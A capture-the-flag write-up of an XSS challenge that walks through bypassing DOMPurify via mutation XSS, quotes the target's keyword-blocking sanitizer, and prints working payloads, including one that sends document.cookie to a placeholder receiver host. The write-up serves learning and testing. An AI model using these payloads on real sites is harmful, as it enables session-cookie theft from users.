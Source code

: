 This year SigSegv qualifiers are back 

# XSS challenge: History of Browser Evolution

You are tasked to steal the cookie from a web page. The target machine is running "Chrome with recent updates", so it is advisable to test it in chrome.


You have one URL to test your payloads and the other one to validate your flag. The validation page will pass the link to a bot which will trigger XSS.
```
http://qual-challs.rtfm.re:8080/
http://qual-challs.rtfm.re:8080/check
```
![Image](https://eqqn.github.io/images/hobe.jpg)
### Finding injection point
Since there is no obvious forms or input elements apparent, we look at the page source ( follow comments for my thought proccess ) :

```js
    var nuclearSanitizer = function (dirty) {
        var clean = dirty;
     //## These are directives banned by Developer
        forbiddenWords = ["onerror", "onload", "onunload", "img", "focus"];    
        
        for (const fw of forbiddenWords) {
            if (dirty.toLowerCase().includes(fw)) {
                console.log(fw);
                clean = "";
                break;
            }
        }
        return clean;
    }
    
    var getUrlParam = function (name) {
        var reg = new RegExp("(^|&)" + name + "=([^&]*)(&|$)");
        var r = unescape(window.location.search.substr(1)).match(reg);
        if (r != null) return r[2];
        return null;
    }

    var layout = getUrlParam("layout");      //## This is where the URL parameter is taken
    var clean = DOMPurify.sanitize(layout);
    
    // Hehe I made a custom sanitizer, no worriez
    clean = nuclearSanitizer(clean);

    var injectionPoint = document.getElementById("injection");
    injectionPoint.innerHTML = clean;
    injectionPoint.innerHTML = injectionPoint.innerHTML;
```

The *getUrlParam* function takes url parameter *layout* and puts it inside "injection" element of the webpage. 
Queries such as ` http://qual-challs.rtfm.re:8080/?layout=YOURSTRINGHERE ` will render on the page.

![Image](https://eqqn.github.io/images/hobe2.jpg)

However there is pesky **DOMPurify.sanitize(layout);** getting in our way of triggering the desired alert(1) box.
After giving automated tools a try ( XSStrike and Burpsuite) and trying to concatenate some form of `<script>alert(222)</script> `to render on the page I kept getting owned by the sanitizer. 

Alternatives from XSS cheat sheets [1] ,[2]( that apply to chrome) didn't seem to work. However my friend point me to an interesting resource - DOMPurify bypass.

### Bypassing DOMPurify

There is an excellent write-up describing a recent vulnerability in DOMPurify, that uses browsers auto-fix feature to close the tags of HTML elements that are not properly matching.

More on this behaviour here : https://research.securitum.com/dompurify-bypass-using-mxss/

So the PoC payload referenced in the article looks like this : 

` <svg></p><style><a id="</style><img src=1 onerror=alert(1)>"> `
However it uses both **img** and **onerror** tags stripped by *NuclearSanitizer()*, so we can look once again at the cheat sheets and find other components that could do the trick. 

![Image](https://eqqn.github.io/images/hobe3.jpg)

`?layout=<svg></p><style><a id="</style><iframe src=1 onmouseover=alert(333)>"> `
With this I popped the first alert. DOMPurify is bypassed. Great, now to make it run without interaction and onto exfiltration. In this part you can get creative.

To steal the cookie, you need to make a request and transfer it to a domain you control. A convenient web service for that is "Requestbin", which allows you to make receive requests on their servers.

`?layout=<svg></p><style><a id="</style><iframe src=javascript:document.location='hxxps://REPLACE-WITH-YOUR-RECEIVER/'+ document.cookie>">`

Once we submit the full URL into the validator, a HTTP request is made to our cookie receiver server :

![Image](https://eqqn.github.io/images/hobe4.jpg)

`flag=sigsegv{pur1fy_mY_s0ul}`

This was a fun challenge, and I got to learn XSS the fun way. 


[1] Web Security Academy XSS cheat sheet https://portswigger.net/web-security/cross-site-scripting/cheat-sheet 

[2] Payload ALL the things XSS repo https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection



